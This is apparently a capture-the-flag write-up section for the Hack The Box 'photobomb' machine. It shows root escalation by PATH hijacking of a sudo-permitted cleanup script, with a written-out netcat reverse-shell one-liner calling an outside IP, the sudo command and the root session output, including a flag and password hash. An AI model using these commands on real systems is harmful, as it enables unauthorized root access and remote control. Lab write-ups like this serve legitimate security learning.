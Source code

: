 ## Root - SUDO SETENV PATH Hijacking
1. How do exploit `/opt/cleanup.sh` (PATH Hijacking)
	1. Since `find` is not called w/ its FULL PATH, we are able to do PATH Hijacking.
	2. Create a malicious script/binary called `find` at `/tmp` directory
	3. Execute `/opt/cleanup.sh` and prepend `/tmp` to the PATH environment variable.
	4. When `find` is called, the system will search `/tmp` directory and locates `find` and executes it, instead of the actual find binary, allowing us to privilege escalate to `root`.
 2. Exploiting `/opt/cleanup.sh` (PATH Hijacking)
	1. Create reverse shell script `find`
		```
		wizard@photobomb:/tmp$ nano find
		rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.104 4444 >/tmp/f
		
		wizard@photobomb:/tmp$ nano find
		wizard@photobomb:/tmp$ chmod +x find
		```
	2. Execute `/opt/cleanup.sh` as root and prepend `/tmp` to the PATH environment variable
		```
		wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
		```
	3. `root` shell obtained
		```
		┌──(root💀kali)-[~/htb/photobomb]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		Ncat: Connection from 10.10.11.182.
		Ncat: Connection from 10.10.11.182:35754.
		# id;whoami
		uid=0(root) gid=0(root) groups=0(root)
		croot
		# d /root
		l# s
		root.txt
		# cat root.txt
		84da75742fa76a4a515ed0665a5d1c29
		#
		```
	4. `chown` works as well!
3. Demo - PATH Hijacking privilege escalation
	![](XWWK8oMGto.gif)
4. `root` hash 
	```
	$6$7MU2U.CeiY0WX91P$TUNn8zNu/XUPSgURRJbzYvnnawpZdGhsWiLSpVrm1cIx9Rev7V/yQ5x58gTy98zcXrv6RqlWRtXcbhEhTl3240
	```
